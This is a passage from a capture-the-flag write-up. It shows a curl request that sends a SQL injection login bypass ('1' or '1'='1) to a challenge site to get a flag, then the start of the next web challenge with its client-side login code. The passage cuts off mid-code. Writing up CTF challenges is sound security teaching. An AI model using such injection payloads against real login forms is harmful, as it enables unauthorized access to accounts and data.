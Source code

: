 ```sh
$ curl -d "username=admin&password=1' or '1'='1" -X POST https://orm-bad.mc.ax/flag

Found. Redirecting to /?alert=flag%7Bsqli_overused_again_0b4f6%7D
#flag{sqli_overused_again_0b4f6}
```

##### Flag: flag{sqli_overused_again_0b4f6}

### web/secure

---

#### Categeory: Web

#### Difficulty: Easy

#### Keywords: SQL Injection, Javascript, Sqlite, Base64, Template Literals

#### Author: TheRealDarkCoder

#### Prompt:>

```
Just learned about encryption—now, my website is unhackable!

secure.mc.ax
```

#### Overview:>

1. Upon visiting the website, we get a similar authentication page as web/orm-bad. A source file is given (`web/SOLVED_secure/index.js`)

```html

  <div class="container">
    <h1>Sign In</h1>
    <form>
      <label for="username">Username</label>
      <input type="text" name="username" id="username" />
      <label for="password">Password</label>
      <input type="password" name="password" id="password" />
      <input type="submit" value="Submit" />
    </form>
    <div class="important"></div>
  </div>
  <script>
    (async() => {
      await new Promise((resolve) => window.addEventListener('load', resolve));
      document.querySelector('form').addEventListener('submit', (e) => {
        e.preventDefault();
        const form = document.createElement('form');
        form.setAttribute('method', 'POST');
        form.setAttribute('action', '/login');

        const username = document.createElement('input');
        username.setAttribute('name', 'username');
        username.setAttribute('value',
          btoa(document.querySelector('#username').value)
        );

        const password = document.createElement('input');
        password.setAttribute('name', 'password');
        password.setAttribute('value',
```